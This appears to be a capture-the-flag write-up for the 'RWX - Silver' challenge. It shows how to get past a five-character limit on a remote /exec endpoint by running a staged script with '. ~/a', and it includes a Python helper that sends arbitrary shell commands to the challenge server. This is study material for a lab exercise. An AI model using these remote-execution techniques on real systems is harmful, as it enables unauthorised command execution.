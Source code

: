 ```python
/would you be so kind to provide me with a flag
"""

write_file("/tmp/a",p)


res = exec("sh /*/a")
```

# RWX - Silver

The challenge is mostly the same, but this time around the `/exec` endpoint only allows $5$ or less characters.


That means that: `"sh /*/a"` has to be shortned by at least $2$ characters.

- We can shorten to the path `/*/a` to `~/a` saving us $1$ character.

But how can we shorten `sh`?

After a some digging i found that I can use `. file`

i.e.:
```text
$ help .
.: . filename [arguments]
    Execute commands from a file in the current shell.

    Read and execute commands from FILENAME in the current shell.  The
    entries in $PATH are used to find the directory containing FILENAME.
    If any ARGUMENTS are supplied, they become the positional parameters
    when FILENAME is executed.

    Exit Status:
    Returns the status of the last command executed in FILENAME; fails if
    FILENAME cannot be read.
```

Thus we can run shorten `sh /*/a` ($7$ chars) to `. ~/a` ($5$ chars)

Updating the script:
```python
import requests
import urllib.parse

url = "https://919<...>496.inst2.chal-kalmarc.tf/"

def exec(param):
    print(f"Executing {param}")
    if 5 < len(param):
        print("Too long:")
        print(param)
        print(f"len: {len(param)}")

    encoded_param = urllib.parse.quote(param)  
    uri = f"{url}exec?cmd={encoded_param}"
    
    res = requests.get(uri)  
    print("Status Code:", res.status_code)
    print(f"Response Body:\n{res.text}\n--- res end ---")
    print()
    return res

def write_file(filename, content):
    print(f"Writing file; path=\"{filename}\"")
```